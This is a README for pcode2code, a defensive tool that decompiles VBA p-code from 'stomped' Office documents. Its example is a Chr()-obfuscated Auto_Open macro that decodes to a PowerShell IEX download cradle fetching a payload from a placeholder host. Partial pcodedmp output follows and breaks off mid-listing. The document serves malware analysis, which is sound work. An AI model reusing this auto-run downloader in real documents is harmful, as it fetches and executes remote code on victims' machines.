 # pcode2code.py - A VBA p-code decompiler

## What is it?

In 2019, [EvilClippy](https://github.com/outflanknl/EvilClippy) tool made easily available for any attacker to dispose of an Office document where the macro code is transformed directly into bytecode. For any reference, please check [this](https://medium.com/walmartlabs/vba-stomping-advanced-maldoc-techniques-612c484ab278) or [this](https://vbastomp.com/). To be able to analyze such "stomped" documents, Dr. Bontchev ([@VessOnSecurity](https://twitter.com/VessOnSecurity)) released [pcodedmp](https://github.com/bontchev/pcodedmp), a tool printing out the VBA bytecode of a document in a readable manner. However, the output might be still hardly readable and analyzable (please check out macaroni in tests folder). As such, pcode2code decompiles, based on [pcodedmp](https://github.com/bontchev/pcodedmp)'s output, the VBA code.

## Kudos

Huge Kudos to Dr. Bontchev ([@VessOnSecurity](https://twitter.com/VessOnSecurity)) who made all the hard work. Just figured out how much time should have been needed for pcodedmp to work.

## example

Let's consider a document, whose code is the following:

```
Sub Auto_Open()
    Dim exec As String
    Dim testvar As String
    Shell Chr(112) & Chr(111) & Chr(119) & Chr(101) & Chr(114) & Chr(115) & Chr(104) & Chr(101) & Chr(108) & Chr(108) & Chr(46) & Chr(101) & Chr(120) & Chr(101) & Chr(32) & Chr(73) & Chr(69) & Chr(88) & Chr(32) & Chr(40) & Chr(40) & Chr(110) & Chr(101) & Chr(119) & Chr(45) & Chr(111) & Chr(98) & Chr(106) & Chr(101) & Chr(99) & Chr(116) & Chr(32) & Chr(110) & Chr(101) & Chr(116) & Chr(46) & Chr(119) & Chr(101) & Chr(98) & Chr(99) & Chr(108) & Chr(105) & Chr(101) & Chr(110) & Chr(116) & Chr(41) & Chr(46) & Chr(100) & Chr(111) & Chr(119) & Chr(110) & Chr(108) & Chr(111) & Chr(97) & Chr(100) & Chr(115) & Chr(116) & Chr(114) & Chr(105) & Chr(110) & Chr(103) & Chr(40) & Chr(39) & Chr(104) & Chr(116) & Chr(116) & Chr(112) & Chr(58) & Chr(47) & Chr(47) & Chr(49) & Chr(48) & Chr(46) & Chr(48) & Chr(46) & Chr(48) & Chr(46) & Chr(49) & Chr(51) & Chr(47) & Chr(112) & Chr(97) & Chr(121) & Chr(108) & Chr(111) & Chr(97) & Chr(100) & Chr(46) & Chr(116) & Chr(120) & Chr(116) & Chr(39) & Chr(41) & Chr(41)
End Sub
```

If you use pcodedmp on this document, you will obtain the following output:

```
VBA/ThisDocument - 2809 bytes
Line #0:
        FuncDefn (Sub Auto_Open())
Line #1:
        Dim
        VarDefn exec (As String)
Line #2:
        Dim
        VarDefn testvar (As String)
Line #3:
        LitDI2 0x0070
        ArgsLd Chr 0x0001
        LitDI2 0x006F
        ArgsLd Chr 0x0001
        Concat
        LitDI2 0x0077
	ArgsLd Chr 0x0001
	Concat
	LitDI2 0x0065
```